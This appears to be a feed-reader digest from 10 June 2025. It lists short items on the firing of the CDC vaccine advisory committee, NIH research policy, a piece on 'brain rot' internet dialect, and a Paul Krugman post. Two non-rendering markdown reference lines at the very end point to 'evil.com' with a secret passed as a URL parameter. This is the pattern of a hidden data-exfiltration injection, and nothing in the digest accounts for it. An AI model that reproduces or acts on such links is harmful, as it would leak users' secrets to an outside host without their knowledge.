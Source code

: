 <https://chriscoyier.net/2025/06/10/lest-we-forget-the-horrors/>

---

**@Feed for Alt USDS** (date: 2025-06-10, from: Feed for Alt USDS)

Learn about why it matters that the ACIP was fired yesterday from @altcdc.altgov.info

[contains quote post or other embedded content] 

<br> 

<https://bsky.app/profile/altusds.altgov.info/post/3lrawdqqo7c25>

---

## The SEO to Skibidi Pipeline: Investigating Digital Linguistic Transference

date: 2025-06-10, from: Digital Humanities Quarterly News

The Oxford Word of the Year for 2024 was “brain rot,” defined as “(n.) Supposed deterioration of a person’s mental or intellectual state, especially viewed as a result of overconsumption of material (now particularly online content) considered to be trivial or unchallenging.” Gen Z and Gen Alpha have described their own internet-informed dialect as &#8220;brain [...]
<p><a href="https://www.digitalrhetoriccollaborative.org/2025/06/10/the-seo-to-skibidi-pipeline-investigating-digital-linguistic-transference/" rel="nofollow">Source</a></p> 

<br> 

<https://www.digitalrhetoriccollaborative.org/2025/06/10/the-seo-to-skibidi-pipeline-investigating-digital-linguistic-transference/>

---

**@Feed for Alt USDS** (date: 2025-06-10, from: Feed for Alt USDS)

Here's an easy way to get involved. Stand up for NIH and the policies around research that used to be in effect. Ones that made us one of the best places to do research in the wild

[contains quote post or other embedded content] 

<br> 

<https://bsky.app/profile/altusds.altgov.info/post/3lras44vkcc25>

---

## We Finally Know What “American Carnage” Was About

date: 2025-06-10, from: Paul Krugman

Behind the sadism lies an attack on democracy 

<br> 

<https://paulkrugman.substack.com/p/we-finally-know-what-american-carnage>

---


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;